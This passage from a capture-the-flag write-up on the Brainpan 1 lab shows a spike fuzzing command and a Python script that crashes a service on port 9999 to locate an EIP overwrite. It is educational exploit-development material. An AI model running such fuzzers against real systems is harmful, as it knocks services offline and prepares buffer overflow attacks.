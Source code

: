 ```bash
generic_send_tcp 192.168.60.15 9999 brain.spk 0 0
```

After a few seconds the target service crashed, Lets check the Debugger:

![first-crash12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/first-crash12.png)


Wev'e sucsesfully overwritten the EIP, now we need to figure out the size of the buffer. 


### Fuzzing 

Lets create a fuzzing script to hunt down the crash point of the server:

```python
import socket, sys
from time import sleep

buffer = b'A' * 100

while True:
	try:
		conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		conn.connect(('192.168.60.15', 9999))
		
		conn.sendall(buffer)
		conn.close()
		sleep(1)
	
	except:
		print(f'Server crashed at {len(buffer)} bytes')
		sys.exit()
```
